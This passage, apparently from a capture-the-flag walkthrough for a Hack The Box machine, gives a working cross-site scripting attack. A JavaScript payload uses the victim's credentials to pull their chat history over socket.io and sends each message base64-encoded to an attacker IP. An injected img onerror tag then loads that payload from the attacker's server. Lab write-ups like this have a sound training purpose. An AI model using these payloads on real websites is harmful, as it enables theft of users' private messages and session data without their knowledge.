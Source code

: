 Based on **chat.js** and **contact_us.js**, we will create a malicous javascript payload that different user on the system will grab and run:

```js
const script= document.createElement('script');
script.src='/socket.io/socket.io.js';
document.head.appendChild(script);
script.addEventListener('load',function(){
    const res=axios.get(`/user/api/chat`);
    const socket=io('/',{withCredentials:true});
    socket.on('message',(my_message) => {
        fetch("http://10.10.14.36:9999/?d="+btoa(my_message))
    });
    socket.emit('client_message','history');
});
```


`<img src=x onerror="var script1=document.createElement('script'); script1.src='http://10.10.14.36:4444/payload.js';document.head.appendChild(script1);"/>`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-18.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-19.png)
